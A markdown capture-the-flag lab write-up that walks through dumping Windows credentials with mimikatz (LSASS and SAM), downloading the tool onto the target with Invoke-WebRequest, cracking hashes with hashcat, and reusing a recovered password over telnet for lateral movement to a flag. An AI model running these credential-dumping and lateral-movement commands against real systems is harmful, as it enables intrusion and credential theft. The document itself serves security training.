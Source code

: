 


# f9038f

## HASH CRACKING

- Download the .exe file of Mimikatz: https://github.com/ParrotSec/mimikatz

- Set up a Python server running in the directory you have the mimikatz.exe, ensure it is the one with 64 bits.

	 `python3 -m http.server 8000`

- Upload it to the target after entering to powershell:

	`Invoke-WebRequest -Uri http://192.168.0.4:80/mimikatz.exe -OutFile C:\tools\mimikatz\mimikatz.exe`
	
	`Remove-Item -Path "C:\tools\mimikatz.exe"`

- **mimikatz moment**: `./mimikatz.exe`

```bash
	log
	privilege::debug
	sekurlsa::logonpasswords // dumping LSASS passwords
	//extraction of sam hashes
	token::elevate
	lsadump::sam // dumping sam (security account manager) hashed it stores passwords of local accounts
```


- Crack some of the hashed that has been obtained from the previous command with hashcat, the input should only be the hash:
  
```bash
	hashcat -m 1000 -a 0 -o cracked_sam.txt sam.txt pass.txt
```
Hashcat actually did not work for me and I ended up using https://crackstation.net/
	
- After trying some of them I got this interesting credentials:
	`richard_gill:velvety`
	
## LATERAL MOVEMENT
- The passwords that have be been retrieved can be useful to other machines that we can discover through the target 10.0.3.12. If in the windows terminal you do `ipconfig`:
```bash
	Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : europe-west1-b.c.en2720-2017.internal
   Link-local IPv6 Address . . . . . : fe80::78c9:9662:5446:b39%5
   IPv4 Address. . . . . . . . . . . : 10.0.3.12
   Subnet Mask . . . . . . . . . . . : 255.255.255.255
   IPv4 Address. . . . . . . . . . . : 10.41.227.12
   Subnet Mask . . . . . . . . . . . : 255.255.255.255
   Default Gateway . . . . . . . . . : 10.41.224.1
```
- One thing I noticed was the DNS domain = **10.0.3.229** to which 10.0.3.12 has connectivity. 
  
```bash
nslookup europe-west1-b.c.en2720-2017.internal
	Server:  en2720-w21-sea-turtle
	Address:  10.0.3.229
```
	
- It has a telnet service opened if we do nmap to that IP we see that it has telnet service and the telnet port is 23:
```bash
	└─$ telnet 10.0.3.229 23
	Trying 10.0.3.229...
	Connected to 10.0.3.229.
```
The credentials found gave me access to the server and I found the flag:

	flag{f9038f2aae9c723fc69b516d4beb4774b2510cfcf2fff7}

	


	
